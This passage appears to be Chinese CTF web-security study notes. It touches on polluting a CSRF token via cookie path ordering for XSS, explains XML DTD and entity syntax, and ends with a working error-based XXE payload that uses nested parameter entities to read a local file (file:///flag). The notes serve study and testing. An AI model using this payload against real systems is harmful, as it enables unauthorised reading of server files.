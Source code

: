 ### cookies

根据path排序 污染`csrf token`实现xss

## XXE

### DTD语法：

> 元素: <!ELEMENT element-name (element-content)>
>
> 属性: <!ATTLIST element-name attribute-name attribute-type attribute-value>
>
> 实体:
>
> 1. 内部实体 <!ENTITY entity-name “entity-value”>
>
> 2. 外部实体 <!ENTITY entity-name SYSTEM “URI/URL”>
>
> 3. 参数实体 <!ENTITY % entity-name “entity-value">
>
>    仅能在DTD中使用
>
> 通过`&entity-name;`引用实体
>
> PCDATA(解析): <!ELEMENT name (#PCDATA)>中 表示解析name子标签
>
> CDATA(非解析): <![CDATA[…]]> 字符数据
>
> ANY : 解析被定义的元素

| 实体引用 | 字符 |
| :------: | :--- |
|   &lt;   | <    |
|   &gt;   | >    |
|  &amp;   | &    |
|  &quot;  | "    |
|  &apos;  | '    |

### UTF-16绕WAF

### 长度限制时报错回显

```xml
<!DOCTYPE message[ 
  <!ELEMENT message ANY >
  <!ENTITY % NUMBER '<!ENTITY &#x25; file SYSTEM "file:///flag">
  <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///xxxxx/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%NUMBER;
]> 
```
